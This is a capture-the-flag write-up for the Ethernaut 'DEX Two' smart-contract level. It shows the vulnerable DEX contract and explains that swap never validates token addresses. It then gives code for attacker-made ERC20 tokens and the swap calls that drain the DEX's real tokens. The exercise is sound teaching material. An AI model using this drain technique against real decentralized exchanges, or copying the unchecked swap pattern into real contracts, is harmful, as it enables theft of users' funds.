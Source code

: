 # [23. DEX Two](https://ethernaut.openzeppelin.com/level/0x5026Ff8C97303951c255D3a7FDCd5a1d0EF4a81a)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
    _mint(msg.sender, initialSupply);
    _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Here we have another DEX similar to the previous level, but this one requires both tokens to be depleted. There is one subtle yet crucial difference within the `swap` function, it does not check the validity of token addresses! In the previous one, we had a `require` statement checking that both `from` and `to` tokens are that of either tokens the DEX is responsible of. This gives us an idea of an attack, creating our own tokens and somehow use them to drain the DEX of its tokens.

Again, we have 10 of each token and the DEX has 100 of each. We will create Token 3 and Token 4, and let DEX have 100 of each. We will then make the following trades:

- Send 100 Token 3 to get 100 Token 1. Since the DEX balance of both `to` and `from` tokens are the same, the swap amount will be equal to the amount we set.
- Send 100 Token 4 to get 100 Token 2. Since the DEX balance of both `to` and `from` tokens are the same, the swap amount will be equal to the amount we set.

This way, the tokens will be depleted by our worthless and arbitrarily created tokens! We use Remix to create [Token 3](0xF25aEe0A68c3EC602F0bDD9E45F062dF611F774B) and [Token 4](https://rinkeby.etherscan.io/address/0xc975954d79412d58746240c536220192485AECBB):

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract MyToken3 is ERC20 {
  constructor() ERC20("MyToken3", "MT3") {
    _mint(msg.sender, 1000);
  }
}
contract MyToken4 is ERC20 {
  constructor() ERC20("MyToken4", "MT4") {
    _mint(msg.sender, 1000);
  }
}
```

After deploying the tokens, transfer 100 of each token to the DEX address, and also give an allowance of 100 of both tokens to the DEX. The actual trades are then simply as follows:

```js
// settings
const amount = 100
const T1 = await contract.token1()
const T2 = await contract.token2()
const T3 = "0xF25aEe0A68c3EC602F0bDD9E45F062dF611F774B" // my Token 3
const T4 = "0xc975954d79412d58746240c536220192485AECBB" // my Token 4

// deplete Token 1
// DEX must have 'amount' T3, and also 'amount' allowance to take T3 from you
await contract.swap(T3, T1, amount)
// deplete Token 2
// DEX must have 'amount' T4, and also 'amount' allowance to take T4 from you
await contract.swap(T4, T2, amount)
```

To confirm the depletion, check the balances:

```js
(await contract.balanceOf(await contract.token1(), contract.address)).toNumber()
(await contract.balanceOf(await contract.token2(), contract.address)).toNumber()
```

That is all!

